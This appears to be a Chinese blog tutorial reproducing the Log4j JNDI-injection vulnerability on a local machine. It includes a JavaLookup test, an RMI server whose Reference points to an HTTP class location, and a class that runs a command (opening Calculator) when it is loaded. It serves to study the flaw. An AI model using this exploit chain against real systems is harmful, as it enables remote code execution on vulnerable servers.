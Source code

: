首先需要使用低版本的 log4j 包，我们在本地新建一个 Spring Boot 项目，使用 2.5.7 版本的 Spring Boot，可以看到一老的 log4j 是 2.14.1，可以复现漏洞。

![](http://yano.oss-cn-beijing.aliyuncs.com/blog/20211214165545.png)

参考 [Apache Log4j Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)，我们先使用代码在 log 里获取一下 java:vm。

## 本地打印 JVM 基础信息

![](http://yano.oss-cn-beijing.aliyuncs.com/blog/20211214165937.png?x-oss-process=style/yano)

```java
@SpringBootTest
class Log4jApplicationTests {

	private static final Logger logger = LogManager.getLogger(SpringBootTest.class);

	@Test
	void log4j() {
		logger.info("content {}", "${java:vm}");
	}
}
```

可以发现输出是：

```
content Java HotSpot(TM) 64-Bit Server VM (build 25.152-b16, mixed mode)
```

使用 JavaLookup 获取到了 JVM 的相关信息（需要使用`java`前缀）。

## 本地获取服务器的打印信息

本地启动一个 RMI 服务：

```java
public class Server {

    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        String url = "http://127.0.0.1:8081/";
        // Reference 需要传入三个参数 (className,factory,factoryLocation)
        // 第一个参数随意填写即可，第二个参数填写我们 http 服务下的类名，第三个参数填写我们的远程地址
        Reference reference = new Reference("ExecCalc", "ExecCalc", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("calc", referenceWrapper);
    }
}
```

ExecCalc 类直接放在根目录，不能申请包名，即不能存在 package xxx。声明后编译的 class 文件函数名称会加上包名从而不匹配。参考 [Java 安全-RMI-JNDI 注入](https://reader-l.github.io/2021/01/26/Java%E5%AE%89%E5%85%A8-RMI-JNDI%E6%B3%A8%E5%85%A5/)。

```java
public class ExecCalc {
    static {
        try {
            System.out.println("open a Calculator!");
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
